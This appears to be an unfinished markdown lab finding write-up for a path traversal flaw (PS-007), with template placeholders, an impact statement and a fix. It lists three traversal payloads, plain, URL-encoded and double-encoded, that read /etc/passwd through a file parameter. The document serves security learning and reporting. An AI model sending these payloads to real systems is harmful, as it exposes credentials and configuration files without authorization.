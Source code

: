 
# PS-007 — Path Traversal: Read Arbitrary File
**Date / Analyst:** $(date +%F) — Christopher Araque

## TL;DR
Parameter `file`/`path` is not sanitized; traversal sequences allow reading `/etc/passwd`.

## Endpoint
- <fill after recon> e.g., GET /download?file=../../../../../../etc/passwd

## Evidence
- Request/Response: [ps-007-request.txt](../../evidence/ps-traversal/ps-007-request.txt)
- Screenshot: ![PS‑007](../../evidence/ps-traversal/ps-007-screenshot.png)

## Payloads (try in Repeater)
../../../../../../etc/passwd
..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

## Impact
Sensitive file disclosure (configs/keys/creds).

## Fix
Canonicalize path; enforce allow‑list; deny `..` / `%2e` / `%2f` and double‑encoded variants; use chroot/sandbox.
